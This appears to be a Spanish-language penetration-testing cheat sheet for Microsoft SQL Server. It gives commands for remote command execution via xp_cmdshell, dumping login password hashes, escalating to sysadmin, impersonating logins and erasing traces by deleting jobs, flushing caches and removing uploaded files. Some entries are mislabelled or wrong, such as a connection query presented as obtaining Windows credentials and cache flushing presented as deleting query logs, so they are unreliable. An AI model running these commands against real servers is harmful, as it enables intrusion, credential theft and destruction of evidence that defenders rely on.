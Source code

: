 ```sql
exec -xp_cmdshell '{command}';
-- Ejecutar comando 
exec sp_configure '{option}', 0/1;
-- Activar o desactivar opción
RECONFIGURE
-- Actualizar el cambio de configuración aplicado
select name from master.sys.databases
-- Listar base de daots
select table_name from {db}.information_schema.tables
-- Listar tablas de la base de datos
use {db}
-- Usar la db para poder ver columnas 
select * from {table}
-- Mostrar todo para la base de datos
```

# Conexión a la base de datos:

-   Conexión básica desde la línea de comandos: `sqlcmd -S <IP_address> -U <username> -P <password>`
    
-   Conexión utilizando Integrated Security (sólo en Windows): `sqlcmd -S <IP_address> -E`
    
-   Conexión utilizando un archivo de configuración: `sqlcmd -S <IP_address> -U <username> -P <password> -i <file_path>`
    

# Recopilación de información:

-   Obtener la versión de SQL Server: `SELECT @@VERSION`
    
-   Obtener información sobre las bases de datos: `SELECT name, user_access_desc, is_read_only FROM sys.databases`
    
-   Obtener información sobre los usuarios: `SELECT name, type_desc, default_schema_name FROM sys.database_principals`
    
-   Obtener información sobre las tablas: `SELECT name FROM sys.tables`
    
-   Obtener información sobre las columnas de una tabla: `SELECT name, system_type_name FROM sys.columns WHERE object_id = OBJECT_ID('<table_name>')`
    

# Enumeración y explotación de vulnerabilidades:

-   Enumeración de cuentas de usuario con contraseñas débiles: `SELECT name, password_hash FROM sys.sql_logins WHERE is_disabled = 0 AND is_expiration_checked = 0 AND password_hash IS NOT NULL`
    
-   Obtención de credenciales de Windows (sólo en Windows): `SELECT auth_scheme, net_transport, protocol_type, encrypt_option FROM sys.dm_exec_connections WHERE session_id = @@SPID`
    
-   Explotación de SQL Injection: `SELECT * FROM <table_name> WHERE <vulnerable_parameter> = '<malicious_input>'`
    
-   Explotación de Buffer Overflow: Utilizar herramientas de explotación como Metasploit o Immunity Debugger.
    
-   Explotación de SQL Server Agent Job: Utilizar herramientas como PowerUpSQL o PowerView para buscar y explotar jobs mal configurados.
    
-   Explotación de SQL Server Integration Services (SSIS): Utilizar herramientas como Ysoserial.net para construir payloads maliciosos y ejecutarlos a través de SSIS.
    

# Escalada de privilegios:

-   Elevación de privilegios utilizando xp_cmdshell: `EXEC xp_cmdshell '<command>'`
    
-   Elevación de privilegios utilizando SET-UID: `CREATE PROCEDURE dbo.spAddLoginAsSysadmin AS EXEC sp_addsrvrolemember 'DOMAIN\Username', 'sysadmin'`
    
-   Elevación de privilegios utilizando impersonation: `EXECUTE AS LOGIN = '<login_name>'; <malicious_code>; REVERT;`
    

# Limpieza de huellas:

-   Eliminar la ejecución de comandos maliciosos: `DELETE FROM sysjobs WHERE name = '<job_name>'`
    
-   Eliminar los registros de las consultas realizadas: `DBCC FREEPROCCACHE; DBCC DROPCLEANBUFFERS;`
    
-   Eliminar las huellas de los archivos cargados: `EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; EXEC sp_OACreate 'Scripting.FileSystemObject', @object OUT; EXEC sp_OAMethod @object, 'DeleteFile', NULL, '<file_path>'; EXEC sp_OADestroy @object;